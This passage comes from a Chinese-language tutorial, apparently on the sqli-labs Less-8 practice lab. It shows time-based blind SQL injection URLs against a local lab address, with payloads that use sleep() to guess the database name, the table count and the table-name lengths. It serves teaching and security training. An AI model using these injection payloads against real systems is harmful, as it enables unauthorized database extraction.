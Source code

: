猜测数据库第二位

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr(database(),2,1))=101,sleep(5),1)--+

![img](assets/naDOLPME7vV5Sc4.jpg) 

#### 3.4.4.5.**猜测数据库表的数量**

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if((select count(table_name) from information_schema.tables where table_schema = database())=4,sleep(5),1)--+

![img](assets/N8AupibCUc7xaEZ.jpg) 

#### 3.4.4.6.**猜测数据库表的长度**

猜测第二张表的长度，若这里分不清哪里判断第二张表的输出，可以去参考布尔盲注中的案例解释。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=8,sleep(5),1)--+

![img](assets/HQfIlPhx4vWSJtO.jpg) 
